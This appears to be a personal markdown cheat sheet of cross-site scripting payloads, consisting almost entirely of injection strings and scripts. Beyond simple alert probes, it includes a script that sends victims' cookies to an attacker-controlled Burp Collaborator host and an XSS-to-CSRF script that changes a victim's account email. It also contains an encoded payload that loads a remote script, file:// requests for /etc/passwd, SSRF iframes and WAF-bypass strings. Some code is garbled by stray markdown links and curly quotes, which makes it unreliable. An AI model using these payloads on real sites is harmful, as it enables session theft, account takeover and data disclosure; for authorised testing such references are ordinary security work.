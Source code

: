 # XSS

Cheat Sheet : https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

"sink" refers to a point in the code where user-controlled data is incorporated into the web page's HTML or JavaScript

`<script>alert(1)</script>`

`"><svg onload=alert(1)>`

`<img src=1 onerror=alert(1)>`

`javascript:alert(document.cookie)`  -- In href senario

`"onmouseover="alert(1)`

`javascript:alert(1)`

`'-alert(1)-'`

`<img%20src=1%20onerror=alert(1)>`

`{{$on.constructor('alert(1)')()}}`  - DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`\"-alert(1)}//` - DOM

`<><img src=1 onerror=alert(1)>`  - where 1st angle brackets are removed by server

`<xss id=x onfocus=alert(document.cookie) tabindex=1>#x'` Custom tags

`<svg><animatetransform onbegin=alert(1)>`  SVG Injection to XSS

`</script><script>alert(1)</script>`  single quote and backslash escaped

`\'-alert(1)//` angle brackets and double quotes HTML-encoded and single quotes escaped

`${alert(1)}` into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

`<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>`   To Steal Cookies, cookies will be send to us.

XSS to CSRF:

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

`<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>` Reflected XSS with event handlers and href attributes blocked

`<>javascript:alert(document.cookie);`

`<>//google.com` - open redirect

`<script> window.location.href = 'https://malicious-site.com'; </script>`  Open Redirect via XSS

---

`>>>>>><marquee>RXSS</marquee></head><abc%3E</script><script>alert(document.cookie)</script><meta` reflected input

`var a = document[.]querySelector('[nonce]');` 
![[Pasted image 20240527171129.png]]


```
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>  
"'`><\x3Cimg src=xxx:x onerror=javascript:alert(1)>  
<math><x xlink:href=javascript:confirm`1`>click  
<script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/  
<svg onload=alert&#0000000040document.cookie)>  
  
JavaScript://%250Aalert?.(1)//  
'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!-->  
</Title/</Style/</Script/</textArea/</iFrame/</noScript>  
\74k<K/contentEditable/autoFocus/OnFocus=  
/*${/*/;{/**/(alert)(1)}//><Base/Href=//[google.com](http://google.com/)\76-->  
  
  
<detalhes%0Aopen%0AonToGgle%0A=%0Aabc=(co\u006efirm);abc%28%60xss%60%26%230000000000000000041//  
  
xss'"><iframe srcdoc='%26lt;script>;alert(1)%26lt;/script>'>  
  
javascript:%ef%bb%bfalert(XSS)  
  
<input accesskey=X onclick="self['wind'+'ow']['one'+'rror']=alert;throw 1337;">  
  
<svg onload="[]['\146\151\154\164\145\162']['\143\157\156\163\164\162\165\143\164\157\162'] ('\141\154\145\162\164\50\61\51')()">  
  
"><video><source onerror=eval(atob([http://this.id](http://this.id/))) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYXlkaW5ueXVudXMueHNzLmh0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61;>  
  
&#34;&gt;&lt;track/onerror=&#x27;confirm\%601\%60&#x27;&gt;  
  
  
<svg><use href="data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyB4bWxuczp4bGluaz0naHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluaycgd2lkdGg9JzEwMCcgaGVpZ2h0PScxMDAnPgo8aW1hZ2UgaHJlZj0iMSIgb25lcnJvcj0iYWxlcnQoMSkiIC8+Cjwvc3ZnPg==hashtag#x" /></svg>  
  
"`'><script>\xE2\x80\x87javascript:alert(1)</script>  
  
  
<img/src=x onError="`${x}`;alert(`Hello`);">  
"`'><script>\xE2\x80\x87javascript:alert(1)</script>  
  
"%2Bself[%2F*foo*%2F'alert'%2F*bar*%2F](self[%2F*foo*%2F'document'%2F*bar*%2F]['domain'])%2F%2F  
  
"\/><img%20s+src+c=x%20on+onerror+%20="alert(1)"\>  
  
&#34;&gt;&lt;track/onerror=&#x27;confirm\%601\%60&#x27;&gt;
```

XSS payload to get /etc/passwd file 

```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](http://x.open/)(‘GET’,’file:///etc/hosts’);x.send();</script>


<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](http://x.open/)(‘GET’,’file:///etc/passwd’);x.send();</script>


<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};[x.open](http://x.open/)(‘GET’,’file:///some/file’);x.send();</script>
```

XSS to SSRF

```
Input the following code in the vulnerable field:  
<iframe src="http://localhost/some/directory"></iframe>  
  
You can also read local files:  
<iframe src="file:///C:/Windows/win.ini" width="500" height="500">
```

WAF Bypass

`<ScRiPt></sCrIpT>`

`<h1 oNLY OnMouseover=prompt('XSS')>`

`+%22+onmouseover=%22alert(document.cookie)%22%3E%3C!--`

`<Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>`


